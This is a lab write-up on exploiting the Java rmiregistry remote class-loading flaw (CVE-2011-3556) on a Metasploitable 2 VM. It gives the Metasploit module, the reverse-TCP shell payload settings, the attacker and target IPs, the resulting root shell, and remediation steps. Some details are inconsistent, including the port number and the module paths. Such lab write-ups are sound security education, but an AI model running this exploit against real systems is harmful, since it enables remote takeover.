





**Target**: Metasploitable 2 VM<br />
**Service**: rmiregsitry<br />
**Port**: 10999<br />
**Vulnerability**: CVE-2011-3556<br />
**Severity**: High(9.8) <br />

"rmiregistry" is a service that acts as a bookeper of offered RMI(remote method invocation services) services for ease of use.<br />

RMI services allow Java applications to communicate and invoke methods on remote objects in different Java virtual machines.<br />

The vulnerability exploits a trust-based system to allow for remote code execution in the target machine, it works by sending a request to a DGC interface on the endpoint of the RMI service and attatching a codebase annotation to the request pointing at a ```.class``` file created by the attacker.<br />
The JVM(java virtual machine) fetched and executes the code within this file believing it to be a class blueprint to allow for data deserialization giving us an RCE.<br />

### Exploitation:
(1) I first ran an nmap scan against port 1099 of the metasploitable machine with the -sC and -sV tags to allow for maximum info disclosure.<br />
<br />

(2) Once I had confirmed the service running on port 1099 was indeed rmiregistry I then launched up msfconsole to make use of the ```exploit/mult/misc/java_rmi_server``` exploit with the ```/payload/java/shell/reverse_tcp``` payload for exploitation.<br />
<br />
<br />
(3) I set the following option on the exploit

```LHOST: 192.168.56.106(attacker machine)<br /> RHOSTS: 192.168.56.107(target machine)<br /> payload: java/shell/reverse_tcp```<br />
<br />
(4) I then launched the exploit and got a root shell on the target machine.<br />

<br />

#### Impact:
I was easily able to get a root shell onto the target machine using a TCP reverse_shell with the exploit.<br />

### Remediation:
- Disable remote class loading to sidestep the whole vuln since this is the functionality the whole exploit depends on, by disabling this you prevent the JVM from making use of external class blueprints.<br />

- Make an allowlist of allowed classes and properties that are allowed to be deserialized to mitigate RCE's without disabling remote class loading entirely.<br />

- Restrict access to rmiregistry/RMI services on untrusted networks to reduce the attack surface.<br />

  
